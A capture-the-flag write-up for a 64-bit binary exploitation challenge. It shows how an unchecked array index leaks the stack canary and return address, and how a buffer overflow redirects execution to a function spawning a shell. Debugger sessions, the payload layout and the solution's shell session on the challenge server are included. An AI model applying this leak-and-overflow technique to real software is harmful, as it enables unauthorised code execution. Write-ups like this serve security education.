 # Real Baby Pwnable


>  This is an actual baby pwn challenge.
>  
> nc ctf.pwn.sg 1500
>  
> Creator - amon (@nn_amon

We are given a binary file `realbabypwn`. Our goal is to get ourselves a shell. To do so, we need to identify how we can get our input to be executed somehow. We know from the output below that we are dealing with a non-stripped 64bit executable. 
```
$ file realbabypwn
realbabypwn: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=a7db9174e237f50d738355e6babd8a80385335e3, not stripped
```


### Disassembling the program

I use the free versions of Binaryninja and IDA, which support only 32-bit and 64-bit binaries respectively. Since this binary is 64 bits, I used IDA to display the control flow graph. I find that control flow graphs paint a better picture of how a program runs than say `objdump` or `gdb`.

There are 3 functions in this program.
1. `main`
2. `fibonacci`
3. `babymode`


The function `babymode` does nothing more than call `system('/bin/sh')`. This is exactly the function we want to call.
![xctf_2018_realbabypwn_target.png](../img/xctf_2018_realbabypwn_target.png)


We also know that `main` just calls the `fibonacci`. `fibonacci` does all the heavy lifting here, so we know the vulnerability must be inside it. The picture below is the vulnerable portion of the function. 

![xctf_2018_realbabypwn_exploitable.png](../img/xctf_2018_realbabypwn_exploitable.png)

Instead of calculating the value of the fibonacci manually each time the user enters a value, the program extracts it from an array. `fibonacci_array` is the array itself. `user_number` is the number the user inputs to choose which fibonacci number to be displayed. The assembly shows that the number that gets printed by `printf` is `fibonacci_array[user_number]`.
```
mov eax, [rbp+user_number]
cdqe
mov rdx,[rbp+rax*8+fibonacci_array]
```

There is no input sanitation, so we can input any value we want into `user_number`, essentially giving us the opportunity to print any QWORD in memory we want. So, what do we want to print?

The program is protected from stack smashing by a stack canary. If we want to redirect program execution to `babymode`, we have to override a return address somehow. That means we need to know the stack canary's value so the program doesn't detect the stack smashing. How, then, do we print the stack canary's value?

![xctf_2018_realbabypwn_local_vars.png](../img/xctf_2018_realbabypwn_local_vars.png)

> EDIT: I realised that the variable at `rbp-0x908` should be the 2nd element of `fibonacci_array` (ie `fibonacci_array[1]`).

We know the array's address is `rbp-0x910`. The stack canary is located at `rbp-0x8`, which is 289 QWORDs away from the array's starting address. If we were to treat our stack as a giant array starting from `rbp-0x908`, the stack canary would be `fibonacci_array[289]`. 

There is also another vulnerability. If the user responds `'n'` to the question "Want to learn another Fibbonaci number", the program reads 0x200 characters into a character array starting at location `rbp-0x110`. The return address of `fibonacci` is located in memory address `rbp+0x8`. Thus, we have a way to overwrite the return address to change program execution.


### Exploring the first vulnerability

We have a theory that we can print out the stack canary's value. So let's test it out in `gdb`.
Let's set a break point at `mov rax, QWORD PTR fs:0x28`, where `rax` will contain the value of the stack canary. Then, we shall print out the value at `fibonacci_array[289]`. If we are correct, we should expect the values to be the same. 

```
(gdb) disassemble fibonacci
Dump of assembler code for function fibonacci:
   0x00000000000009c3 <+0>:	push   rbp
   0x00000000000009c4 <+1>:	mov    rbp,rsp
   0x00000000000009c7 <+4>:	sub    rsp,0x920
   0x00000000000009ce <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00000000000009d7 <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00000000000009db <+24>:	xor    eax,eax
[...]
(gdb) b *0x00000000000009d7
Breakpoint 1 at 0x9d7
```

We've set the breakpoint, so let's get started! Wait... Why do we have an error?
```
(gdb) start
Temporary breakpoint 2 at 0xb25
Starting program: /home/solomonbstoner/Desktop/CTF Guides/xctf 2018/realbabypwn 
Warning:
Cannot insert breakpoint 1.
Cannot access memory at address 0x9d7
```


I have no idea why the error occured. My guess is it has something to do with Position Independent Executable. Turns out, we have to start the program first so that we can include the break points. The output below shows that `0x5f13cebfc9906900` is the true value of the stack canary.

```
(gdb) disassemble fibonacci
Dump of assembler code for function fibonacci:
   0x00005555555549c3 <+0>:	push   rbp
   0x00005555555549c4 <+1>:	mov    rbp,rsp
   0x00005555555549c7 <+4>:	sub    rsp,0x920
   0x00005555555549ce <+11>:	mov    rax,QWORD PTR fs:0x28
   0x00005555555549d7 <+20>:	mov    QWORD PTR [rbp-0x8],rax
   0x00005555555549db <+24>:	xor    eax,eax
[...]
Quit
(gdb) b *0x00005555555549d7
Breakpoint 5 at 0x5555555549d7
(gdb) c
Continuing.

Breakpoint 5, 0x00005555555549d7 in fibonacci ()
(gdb) p/x $rax
$2 = 0x5f13cebfc9906900
```

With our input `"289"`, the number `6851046781276416256` is printed out.
```
(gdb) c
Continuing.
Which fibbonacci offset did you want to look up? 289
Fibbonaci Number 289: 6851046781276416256
```

Let's convert it to hex. It is the stack canary's value.
```
>>> hex(6851046781276416256)
'0x5f13cebfc9906900'
```


### Exploiting the vulnerabilities

Our input needs to be in the following format to exploit the 2 vulnerabilities above.
```
< padding of 0x108 characters > < stack canary > < padding of 0x8 characters > < address of babymode >
```

As the program has PIE enabled, the address of `babymode` will change with each execution. Therefore, we need to find the base address. We can find the run-time return address of `fibonacci` with the format string vulnerability. With that and its address offset before execution, we can find the base address with the pseudocode `base_addr = fib_ret_addr - fib_addr_offset`. The run-time address of `babymode` will simply be `babymode_addr = babymode_offset + base_addr`.

My solution is in the file `soln_for_real_baby_pwnable.py.` The output of the script is below.


```
$ python2 soln_for_real_baby_pwnable.py 
[*] '/home/solomonbstoner/Documents/Cr055CTF2018/Pwn/realbabypwn'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x9b0
[+] Opening connection to ctf.pwn.sg on port 1500: Done
Stack canary value: 0xd40a27b226f17a00
Fibonacci return address: 0x558672cd2b92
rbp of <main>: 0x7ffe11a8d160
Base address: 0x558672cd2000
[*] Switching to interactive mode
$ whoami
realbabypwnuser
$ find . -iname "flag"
find: './root': Permission denied
find: './var/lib/apt/lists/partial': Permission denied
find: './var/spool/cron/crontabs': Permission denied
find: './var/spool/rsyslog': Permission denied
find: './var/cache/ldconfig': Permission denied
find: './var/cache/apt/archives/partial': Permission denied
find: './proc/tty/driver': Permission denied
find: './proc/1/task/1/fd': Permission denied
find: './proc/1/task/1/fdinfo': Permission denied
find: './proc/1/task/1/ns': Permission denied
find: './proc/1/fd': Permission denied
find: './proc/1/map_files': Permission denied
find: './proc/1/fdinfo': Permission denied
find: './proc/1/ns': Permission denied
./home/realbabypwnuser/flag
$ cat ./home/realbabypwnuser/flag
CrossCTF{It3r4t1ve_0ver_R3curs1v3}
$  
```

The challenge is solved.
